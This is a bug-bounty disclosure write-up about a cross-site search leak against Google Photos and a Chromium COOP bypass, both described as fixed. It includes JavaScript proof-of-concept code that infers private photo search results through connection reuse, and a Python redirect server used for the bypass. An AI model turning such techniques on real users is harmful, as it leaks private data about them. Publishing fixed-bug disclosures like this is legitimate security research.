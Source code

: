 ```yaml
---
title: XS-Search on Google Photos
---
```


[Google Photos](https://photos.google.com) is a service by Google, a subsidiary of Alphabet used to store and view user uploaded duck photos.

# XS-Leak (Fixed, Awarded $1337)

This attack is documented at <https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/#connection-reuse> and was done as part of a grant of $500.  
Usage is `await search('duck')` to leak if a query exists (If victim took a photo of a duck)

```js
async function isConnected() {
  // Detect connection reuse for lh3.googleusercontent.com
  // No timing attack needed because of timing-allow-origin: *
  performance.clearResourceTimings();
  await fetch('https://lh3.googleusercontent.com/', {mode: 'cors'});
  await new Promise((r) => setTimeout(r, 1000));
  let data = performance.getEntries().pop();
  return data.connectStart === data.startTime;
}

async function search(query) {
  let w = open();
  // Close connections using idle timeout.
  await new Promise((r) => setTimeout(r, 30000));
  // First try is free, next needs COOP or user activation bypass.
  w.location = 'https://photos.google.com/search/' + query;
  await new Promise((r) => setTimeout(r, 5000));
  return await isConnected();
}
```

I think this was fixed as part of <https://chromium-review.googlesource.com/c/chromium/src/+/4387455>

# COOP bypass (Fixed, Awarded $3000)

Abuses the Chromium auto reloader using a invalid server response, also worked with max redirect limit.

```js
from http.server import BaseHTTPRequestHandler, HTTPServer

sessions = set()

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if (self.path not in sessions):
            self.send_response(200)
            self.send_header("Cache-Control", "no-store")
            message = "<invalid>"
            self.wfile.write(bytes(message, "utf8"))
            self.end_headers()
            sessions.add(self.path)
        else:
            self.send_response(307)
            self.send_header('Cache-Control', 'no-store')
            self.send_header('Location','https://photos.google.com/search/duck')
            self.end_headers()
            sessions.remove(self.path)

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```

This was fixed in <https://issues.chromium.org/40060695> originally reported as a way to bypass the iframe sandbox `allow-downloads` flag.
Same trick also worked for a extension WAR (web accessible resources) bypass that issue was fixed in <https://issues.chromium.org/40060076> and awarded $1000
